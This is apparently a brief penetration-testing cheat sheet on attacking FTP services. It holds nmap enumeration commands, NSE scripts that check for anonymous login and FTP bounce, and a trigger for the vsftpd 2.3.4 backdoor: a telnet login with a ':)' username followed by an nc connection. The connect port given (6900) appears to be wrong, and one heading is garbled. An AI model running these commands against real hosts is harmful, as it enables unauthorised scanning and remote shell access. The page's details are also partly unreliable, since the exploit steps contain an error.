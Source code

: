 ```yaml
---
description: TCP/21
---
```


# FTP

### Enumerating with nmap

```bash
nmap -v -n -Pn -sT -p 21 --open --oA report_ftp $range
grep open report_ftp.gnmap | cut -d" " -f2 > hosts_ftp.txt
```

## Enumeration with NSEnmap scansnmap scripts

```bash
#check for anonymous
nmap -v -p 21 --script=ftp-anon.nse $ip-254

nmap -sT -p 21 -v -n -Pn --script ftp-bounce $ip
```

### VSFTPD

version 2.3.4 is vulnerable

```bash
telnet $ip 21
USER someone: )
PASS nothing
ctrl+[

nc $ip 6900
```

